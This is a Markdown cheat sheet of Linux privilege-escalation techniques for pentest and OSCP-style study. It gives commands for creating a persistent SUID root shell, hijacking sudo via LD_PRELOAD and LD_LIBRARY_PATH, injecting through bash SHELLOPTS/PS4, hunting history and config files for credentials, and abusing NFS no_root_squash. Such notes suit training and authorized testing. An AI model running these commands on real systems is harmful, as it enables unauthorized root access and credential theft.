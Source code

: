 ```yaml
---
title: "Manual Exploitation"
permalink: /notes/linuxmanualexploit/
classes: single
ribbon: LightBlue
categories:
  - notes
tags:
  - beginner
  - pentest
  - recon
  - oscp
  - linux
  - privesc
  - privilege escalation
  - privilege
  - escalation
  - manual
toc: true
hide_title: true
excerpt: ""
---
```


Persistent root: `cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash` -> `/tmp/rootbash -p`

1. Kernel exploit:
    
    - Detection:
        - `uname -a`, search for exploits
        - `linux-exploit-suggester-2.pl -k KERNEL`
    - Exploitation:
        - search for exploits, compile, run
2. Service exploit:
    
    - Detection:
        - `ps aux | grep "^root"`
        - `<program> --version`
        - `dpkg -l | grep <program>` or `rpm -qa | grep <program>`
    - Exploitation:
        - search for exploits
        - GTFOBins
3. Weak file permissions:
    
    - Detection:
        - `lse.sh`
        - `/etc/shadow` R|W, `/etc/passwd` W
        - backups
    - Exploitation:
        - depending on which files are readable or writable
4. Sudo:
    
    - Detection:
        - `lse.sh`
        - `sudo -l`
    - Exploitation:
        - can execute ALL and known password: `sudo su`, `sudo -i`, `sudo -s`, `sudo /bin/sh`, `sudo passwd`
        - GFTOBins
        - `LD_PRELOAD` -> create `preload.so`, then `sudo LD_PRELOAD=/tmp/preload.so PROGRAM`
        - `LD_LIBRARY_PATH` -> create shared library (`ldd`), then `sudo LD_LIBRARY_PATH=LIB_PATH PROGRAM`
5. Cron jobs:
    
    - Detection:
        - `lse.sh`
        - `/etc/crontab`
    - Exploitation:
        - weak file permissions
        - PATH
        - wildcards in cronjob -> GTFOBins
6. SUID binaries:
    
    - Detection:
        - `lse.sh`
    - Exploitation:
        - search for exploits
        - GTFOBins
        - shared object injection -> create shared library (`strace -v -f -e execve <command> 2>&1 | grep exec`), then run SUID binary
         ex.  -  strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
         ex. compiling -  gcc -shared -fPIC -o libcalc.so libcalc.c
        - PATH (`strace -v -f -e execve <command> 2>&1 | grep exec`, `ltrace`, `strings`, disassembly)
7. Shell features:
    
    - `bash` < 4.2-048 -> user defined functions with absolute path name take precedence over executable
    - `bash` < 4.4 -> bash debug mode `env -i SHELLOPTS=xtrace PS4='$(CMD)' PROGRAM`
8. Passwords and keys:
		`cat ~/.*history | less'
		`find / -type f \( -name "flag.txt" -o -name ".flag.txt" \) 2>/dev/null`
		`grep -ri flag`
    - config files  (`find / ! -path "*/proc/*" -iname "*config*" -type f 2>/dev/null`)
    - history files   (`ls -la` and we can see files like ` *_history`)
    - SSH keys
    - password reuse
9. NFS:
    
    - Detection:
	    - must be `no_root_squash`
        - `/etc/exports`
        - `showmount -e TARGET`
    - Exploitation:
        - `mount -o rw,vers=2 TARGET:/tmp /tmp/nfs`
        - create SUID binary, run from target
